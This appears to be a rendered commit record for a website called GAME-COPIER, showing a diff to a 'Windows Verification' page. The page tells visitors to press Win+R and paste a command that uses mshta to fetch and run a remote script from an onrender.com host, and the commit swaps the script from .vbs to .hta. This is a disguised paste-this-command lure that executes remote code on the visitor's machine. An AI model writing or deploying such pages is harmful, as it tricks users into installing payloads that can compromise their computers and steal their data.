

Before and after one commit to skibiditoile3qb/GAME-COPIER, a website: page public/verify-windows.html in a window 1280 px wide. Shown: the full height of the page, 319-959 px from the left. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update verify-windows.html

```diff
--- a/public/verify-windows.html
+++ b/public/verify-windows.html
@@ -11,7 +11,7 @@
 <body>
   <h2>Windows Verification</h2>
   <p>Press <b>Win + R</b>, then paste and run the following command:</p>
-  <div class="cmd">mshta https://freegamecopier.onrender.com/verifyaccept.vbs</div>
+  <div class="cmd">mshta https://freegamecopier.onrender.com/verifyaccept.hta</div>
   <p>This will display a popup if accepted.</p>
   <button onclick="window.location.href='/'">Back to Home</button>
 </body>
```
